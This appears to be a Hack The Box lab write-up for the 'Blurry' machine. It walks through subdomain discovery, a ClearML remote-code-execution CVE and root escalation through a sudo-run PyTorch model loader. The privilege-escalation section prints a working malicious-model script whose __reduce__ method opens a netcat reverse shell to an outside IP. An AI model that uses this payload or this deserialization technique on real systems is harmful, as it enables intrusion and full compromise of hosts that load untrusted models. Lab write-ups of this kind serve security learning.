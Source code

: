 ```yaml
---
title: "Blurry Walkthrough(Hack The Box)"
date: 2025-04-05
draft: false
description: "a description"
tags: ["Medium", "Linux", "Hack The Box", "Hacking", "Web", "Walkthrough"]
---
```


## About
Blurry is a medium-difficulty Linux machine that features DevOps-related vectors surrounding machine learning. The foothold is comprised of a series of CVEs recently disclosed about the ClearML suite. The service provides a web platform, a fileserver, and an API; all of which contain vulnerabilities (`[CVE-2024-24590](https://nvd.nist.gov/vuln/detail/CVE-2024-24590)` - `[CVE-2024-24595](https://nvd.nist.gov/vuln/detail/CVE-2024-24595)`) that can be chained together for remote code execution. Once a shell on the target is obtained, a program that can be run with `sudo` is discovered. The program loads arbitrary `PyTorch` models to evaluate them against a protected dataset. While it is known that such models are susceptible to insecure deserialisation, `fickling` is used to scan the dataset for insecure `pickle` files , prior to loading the model. Malicious code can be injected into a model, using `runpy` to bypass the `fickling` checks.

## Reconnaissance 
- Initial Nmap scan revealed **two open ports**.
![Pasted image 20241230011755.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241230011755.png?raw=true)
- Browsing to the IP led me to a **main web application hosted at** `app.blurry.htb`. 
- At this point, I added `blurry.htb` and `app.blurry.htb` to my `/etc/hosts` file for easy access.  

## Enumeration
- Through further inspection of the application and some basic fuzzing/DNS enumeration, I discovered **multiple subdomains**:  
  - `files.blurry.htb`  
  - `app.blurry.htb`  
  - `chat.blurry.htb`  
  - `api.blurry.htb`  
![Pasted image 20241230012112.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241230012112.png?raw=true)
- The `chat` subdomain contained a messaging system where I found **announcements and internal discussions** that revealed the app under `app.blurry.htb` was built using **ClearML**.  
- This detail turned out to be crucial during exploitation.  
![crucial](https://media.tenor.com/DrQJZb8JvoQAAAAj/its-kinda-important-eric-cartman.gif)

## Exploitation
- Based on my enumeration, I looked into known vulnerabilities for ClearML and came across a **Remote Code Execution (RCE) exploit: `CVE-2024-24590`**.  
- The exploit allowed arbitrary code execution via manipulated task scheduling in the ClearML system.  
- Followed the PoC steps from a GitHub repo:
  - Set up and triggered a ClearML task on the host  
  - Executed the RCE payload
![Followed](https://media1.tenor.com/m/5xhyv6ICia8AAAAC/legends-of-the-fall-all-the-rules.gif)
- Successfully gained a **reverse shell** as the `blurry` user.
![Pasted image 20241230012804.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241230012804.png?raw=true)
- Also got the {{< keyword >}} User flag {{< /keyword >}}
![Pasted image 20241230022137.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241230022137.png?raw=true)

## Privilege Escalation
- Checked for potential privesc vectors and found a **sudo permission** allowing execution of a script that loads and verifies `.pth` model files.
![Pasted image 20241230031047.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241230031047.png?raw=true)
- The script used **PyTorch** to load models, creating an opportunity for exploitation via the `__reduce__` method in a custom model class.  
- I crafted a malicious PyTorch model that, when deserialized by the script, would trigger a **reverse shell as root**.  
- Learned about this technique from a detailed blog post on ML model deserialization attacks. 

```python
import torch  
import torch.nn as nn  
import os  
  
class MaliciousModel(nn.Module):  
    def __init__(self):  
        super(MaliciousModel, self).__init__()  
        self.dense = nn.Linear(10, 1)  
      
    def forward(self, pk):  
        return self.dense(pk)  
     
    def __reduce__(self):  
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.65 9001 >/tmp/f"  
        return os.system, (cmd,)  
  
malicious_model = MaliciousModel()  
torch.save(malicious_model, 'pk2212.pth')
```
- Used sudo to run the verification script with this model
![Pasted image 20241230031501.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241230031501.png?raw=true)
- Got a root shell back to my listener and captured the {{< keyword >}} Root flag {{< /keyword >}}
![Pasted image 20241230031533.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241230031533.png?raw=true)

## Summary
- Target: Linux machine hosting a ClearML-based app.

- Recon revealed key subdomains and led us to ClearML.

- Used known CVE-2024-24590 to exploit the ClearML service and gain a foothold.

- Escalated privileges to root via a malicious PyTorch model deserialization attack, leveraging a misconfigured sudo script.

- Successfully retrieved both user and root flags.

{{< typeit >}} I hope you enjoyed my walkthrough if yes kindly share this with your connections. So until next time byee...... {{< /typeit >}}
![end](https://media.giphy.com/media/7DzlajZNY5D0I/giphy.gif?cid=ecf05e4795scc63iio2egfh13waslmf6buv3kdg985s97vkv&ep=v1_gifs_search&rid=giphy.gif&ct=g)
